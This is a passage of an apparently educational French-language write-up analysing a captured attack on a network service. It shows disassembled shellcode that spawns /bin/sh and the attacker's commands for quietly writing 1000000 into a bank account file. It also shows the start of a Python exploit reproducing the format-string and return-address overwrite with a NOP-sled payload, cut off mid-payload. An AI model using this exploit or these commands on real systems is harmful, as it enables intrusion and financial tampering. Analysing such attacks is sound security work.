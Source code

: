 ```
.data:000000ef cd 80                            int    0x80
.data:000000f1 b0 01                            mov    al,0x1
.data:000000f3 cd 80                            int    0x80
.data:000000f5 e8 8a ff ff ff                   call   0x00000084
.data:000000fa 2f                               das    
.data:000000fb 62 69 6e                         bound  ebp,QWORD PTR [ecx+0x6e]
.data:000000fe 2f                               das    
.data:000000ff 73 68                            jae    0x00000169
.data:00000101 41                               inc    ecx
.data:00000102 41                               inc    ecx
.data:00000103 41                               inc    ecx
.data:00000104 41                               inc    ecx
.data:00000105 41                               inc    ecx
.data:00000106 41                               inc    ecx
.data:00000107 41                               inc    ecx
.data:00000108 41                               inc    ecx
.data:00000109 41                               inc    ecx
.data:0000010a 0a 00                            or     al,BYTE PTR [eax]
.data:0000010c 00 00                            add    BYTE PTR [eax],al
.data:0000010e 0d 00 00 00 8b                   or     eax,0x8b000000
.data:00000113 91                               xchg   ecx,eax
.data:00000114 98                               cwde   
.data:00000115 c3                               ret    
.data:00000116 ff 0a                            dec    DWORD PTR [edx]
```


## 5 Instructions malveillantes éxécutées dans le shell
Une fois le shell lancé, l'attaquant éxécute des instructions pour changer les droits d'écriture, rajouter 1000000 dans le fichier du compte en banque A9826, puis remet les droits d'écriture comme avant pour etre discret.
```
uname
-> Linux
chmod u+w A9826
echo 1000000 > A9826
chmod u-w A9826
exit
```
## 6 - Script de reproduction de l'attaque

Voici le un script que nous avons écrit pour pouvoir reproduire l'attaque.  
Pour la reproduire, il fallait récupérer donc l'addresse de msg.dst après la première requête "ECHO %x%x%x%x %x". Puis on calculait l'adresse de l'adresse de retour &RET.  
On reprenait donc la grosse payload de l'attaquant en remplaçant les 5 derniers octets par l'octet de poid faible de &RET (moins 1 car après copie l'adresse est incrémenter pour écrire sur l'octet suivant) et les 4 derniers octets par l'adresse récupérée qui est plus ou moins l'adresse à l'endroit on notre payload a été stockée.

```python
import socket
from binascii import a2b_hex

host = '192.168.56.101'
port = 5000

# the base_payload comes from the .pcap file
base_payload = [0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
                0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
                0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
```